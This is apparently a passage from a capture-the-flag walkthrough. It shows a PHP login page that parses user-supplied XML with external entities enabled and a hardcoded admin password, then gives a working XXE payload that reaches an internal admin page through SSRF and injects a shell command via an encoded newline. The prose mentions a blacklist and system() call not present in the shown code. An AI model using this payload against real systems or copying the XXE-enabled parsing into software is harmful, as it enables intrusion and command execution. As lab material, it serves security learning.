 ```php
<?php
if(isset($_POST["auth"])) {
    libxml_disable_entity_loader (false);
    $xml = $_POST["auth"];
    $dom = new DOMDocument();
    $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $user = $creds->user;
    $pass = $creds->pass;
    if($pass === "super_secure_password" && $user === "admin"){
      echo "<html><body><div>You are logged in as user <b>admin</b><br>";
      echo "You can go to the admin page now: <br><a href='http://localhost/personal_secret_admin_page.php'>http://localhost/personal_secret_admin_page.php</a></body></html>";
    }
    else{
      echo "User '" . $user ."' not found!";
    }
}
else {
  echo "<html><body><div><form method='POST'><input type='text' name='auth'><br><input type='submit'></form></div></body></html>";
}
?>
```

So we have the source of that secret page. We can see that it's a classic command injection because it is taking the `$ip` to the `system()` but the problem is that `blacklist` because it contains almost every command line character.

This can be done by doing `%0als` in the end. This basically add a `\n` to the end of the command and then runs our command. The main problem here was a proper way to do it while bypassing that IP check also.

It took us few hours but in the end [@4ndr34z]() figure it out.

```

auth=<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE creds [ <!ELEMENT creds ANY ><!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/scarecrow/personal_secret_admin_page.php?ip=192.168.56.118%250Als' >]><creds><user>%26xxe;</user><pass>pass</pass></creds>
```

![](images/scare/ls.png)

__NOTE__: The IP is your machine's IP. Also every payload has to be double URL encoded.
